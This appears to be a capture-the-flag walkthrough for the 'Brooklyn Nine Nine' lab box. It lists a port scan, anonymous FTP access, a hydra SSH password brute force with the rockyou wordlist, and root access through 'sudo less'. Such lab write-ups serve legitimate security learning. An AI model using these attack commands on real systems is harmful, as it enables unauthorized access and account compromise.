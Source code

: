 # Brooklyn Nine Nine

- User flag

	- `scilla port -p -1000 <TARGET_IP>`
	- Three ports open.
	- `ftp <TARGET_IP>` with username anonymous and no pwd.
	- `get note_to_jake.txt`
	- `cat note_to_jake.txt`
	- Cool.
	- `hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://<TARGET_IP> -f -VV -t 4`
	- `ssh jake@<TARGET_IP>` and enter the pwd.
	- `ls -alh`
	- `cd ..`
	- `cd holt`
	- `ls -lah`
	- `cat user.txt`
	- `********************************`

- Root flag

	- `sudo -l`
	- `sudo less /root/root.txt`
	- `********************************`



